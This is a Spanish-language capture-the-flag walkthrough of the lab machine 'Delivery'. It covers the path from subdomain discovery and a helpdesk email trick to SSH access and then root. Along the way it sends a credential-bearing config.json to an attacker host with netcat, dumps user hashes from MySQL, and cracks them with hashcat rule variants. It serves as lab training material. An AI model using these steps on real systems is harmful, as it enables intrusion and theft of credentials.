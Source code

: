 ## Summary

Tags: 
Y
- IP -> 10.10.10.222
- Ports -> TCP (22, 80, 8065), UDP (idk)
- OS ->  Linux Debian Buster
- Services & Applications
    -  22 ->  OpenSSH 7.9p1 Debian
    -  80 ->  http nginx 1.14.2
    -  8065 -> http webpage Mattermost

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
Miramos la pagina web para ver que podemos encontrar
- **/etc/hosts** -> delivery.htb 10.10.10.222
Ctrl + u en la pagina web y miramos el codigo fuente
- **/etc/hosts** -> helpdesk.delivery.htb 10.10.10.222 Agregamos el subdominio

- Comando -> **gobuster vhost -u http://delivery.htb -t 200 -w /usr/share/Seclists/Discovery/DNS/subdomains-top1million-5000.txt** Para descubrir mas subdominios en la ruta de la pagian web y encontramos helpdesk.delivery.htb
El cual nos pones a ingresar datos en las opciones y asi vamos descubriendo cosas. 
Lo interesante es que el correo que creamos en la pagina user@delivery.htb lo podemos usar para checar la consulta con el numero que nos dan y asi poder entrar a la pagina. 

Buscamos en Google que es (Mattermost) y es un servicio de chat en linea de codigo abierto y autohospedable con intercambio de archivos, busqueda e integraciones. 

En la pagina de mattermost podemos usar el correo temporal de la pagina helpdesk 4444@delivery.htb para poder usarlo y crearnos una cuenta en mattermost y cuando nos llegue el correo de verificacion poderlo ver en la pagina del helpdesk. Una vez verificada la cuenta ya podriamos ingresar a Mattermost. 
Una vez dentro de la pagina nos dan un usuario y password qur lo usaremos para conectarnos por ssh.

## User
- Comando -> **sshpass -p <'PASSWORD'> ssh < USER>@< IP>** Conectarnos por ssh y podemos mirar la flag de user.txt

-
Tratamiento de la consola Linux cuando entras a una maquina victima
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’** Para remplazar lo de arriba por si no nos deja
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

-
- Comando -> **lsb_release -a** Nos proporciona informacion de que Linux es 

- Comando -> **find / -name mattermost 2>/dev/null** Para encontrar el directorio y los permiso denegados no nos los muestre
- Comando -> **ps -faux | grep -i mattermost** Buscaremos la palabra mattermost de forma insensitive a nivel de procesos y encontramos una ruta la cual es **/opt/mattermost/bin/mattermost** en la cual solo usaremos esta parte **/opt/mattermost** e ingresamos a ese dir
Miramos lo que hay ahi adentro y encontramos un dir **config** en el cual miramos un config.json 

- Comando -> **nc -nlvp 443 | jq** Lo que recibamos por netcat lo convertimos en json para verlo mejor 
- Comando -> **cat config.json | nc 10.10.14.17 443** Enviamos el archivo encontrado a nuestra maquina de atacante para verlo mejor
Encontramos un usuario y una pasword las cuales usaremos para podernos conectar a la base de datos 

Nos conectamos a la base de datos de esta manera 
- Comando -> **mysql -u < user> -p** Nos conectamos y le proporcionamos la password encontrada en el archivo anterior
- **>show databases;**
- **>use mattermost;**
- **>show tables;** 
- **>describe Users;**
- **>select Username,Password from Users;**  Ahi encontraremos el usuario root y un hash 

Usamos la grafica de windows para hacer variantes de la password **PleaseSubscribe!** que es una palabra que encontramos en una conversacion en la pagina web de la maquina victima, en el cual estaremos usando en Windows **\\hashcat-6.2.6\\rules**. Ahi usaremos el **best64.rule** el cual nos ayudara a tener variantes de esa palabra

- Comando -> **hashcat.exe --stdout -r rules/best64.rule pwd.txt > passwords**  Podemos hacer y mostrar variantes de la password almacenada en ese archivo pwd.txt que contiene la palabra PleaseSubscribe! y despues de hacer las variantes nos podemos crear un diccionario llamado passwords, el cual podemos usar para crackear el hash.
- Comando -> **hashcat.exe -m 3200 -a 0 hash passwords** Con la misma herramienta crackearemos el hash pasandole el hash encontrado en la base de datos y el diccionario que acabamos de crear y nos da la password de root.

## Root

- Comando -> **su root** 
Colocamos la password que acabamos de descubrir e ingresamos como el usuario root. Ahora solo queda buscar la flag root.txt